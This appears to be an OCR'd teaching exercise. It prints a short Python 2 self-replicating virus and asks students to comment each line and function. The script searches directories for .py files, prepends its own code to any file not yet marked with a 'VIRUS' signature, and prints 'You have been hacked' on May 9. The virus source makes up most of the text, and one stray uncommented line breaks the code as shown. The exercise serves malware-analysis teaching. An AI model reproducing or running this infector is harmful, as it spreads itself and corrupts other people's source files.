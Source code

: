 #!/usr/bin/python
# Load Python and import the OS and DATETIME Libraries
import os
import datetime

# Define a variable named SIGNATURE and set it to VIRUS
SIGNATURE = "VIRUS"

Define a function called locate which 
def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print "You have been hacked"

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
Perform an analysis of the Python-based code.

Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
Insert comments above the final three lines explaining how the functions are called and what this script appears to do.
